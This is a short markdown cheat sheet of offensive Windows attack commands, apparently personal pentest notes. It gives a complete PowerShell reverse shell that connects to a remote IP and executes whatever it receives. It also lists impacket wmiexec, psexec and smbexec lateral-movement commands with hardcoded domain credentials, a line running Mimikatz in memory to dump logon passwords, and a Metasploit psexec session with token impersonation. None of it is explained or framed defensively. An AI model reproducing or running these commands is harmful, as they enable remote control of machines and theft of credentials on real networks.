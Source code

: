 ##### Powershell #reverseshell 

```powershell
# Powershell reverse shell # Scheduled task for example # powershell -enc <base 64 de la commande> 
$client = New-Object System.Net.Sockets.TCPClient("10.0.20.12",443);$stream = $client.GetStream();\ [byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;\ 	$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);\ 	$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";\ 	$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);\ 	$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

##### WMIexec #wmiexec #reverseshell
```bash
wmiexec is less noisy than psexec 
/usr/bin/impacket-wmiexec d.traya@192.168.56.102
```
##### psexec #psexec #reverseshell
```bash 
# psexec # Drosp a binary on the target → Noisy /usr/share/doc/python-impacket/examples/psexec.py GALACTIC/d.traya:triumvirat@192.168.56.102
```
##### smbexec #smb #reverseshell 
```
# smbexec /usr/share/doc/python-impacket/examples/smbexec.py GALACTIC/d.traya:triumvirat@192.168.56.102
```


### Mimikatz in RAM #mimkatz #reverseshell

`# From MSF (execute Mimikatz in RAM) execute -H -i -c -m -d calc.exe -f /path/to/mimikatz.exe -a  '"privilege::debug" "sekurlsa::logonPasswords full" exit'` 

  

### Metasploit 

`# psexec msf5 > use exploit/windows/smb/psexec msf5 exploit(windows/smb/psexec) > set RHOSTS 10.69.88.100 msf5 exploit(windows/smb/psexec) > set SMBDomain GALACTIC.LAN msf5 exploit(windows/smb/psexec) > set SMBUSER d.traya msf5 exploit(windows/smb/psexec) > set SMBPASS triumvirat msf5 exploit(windows/smb/psexec) > run  # Impersonate user use incognito list_tokens -u impersonate_token <token> shell whoami`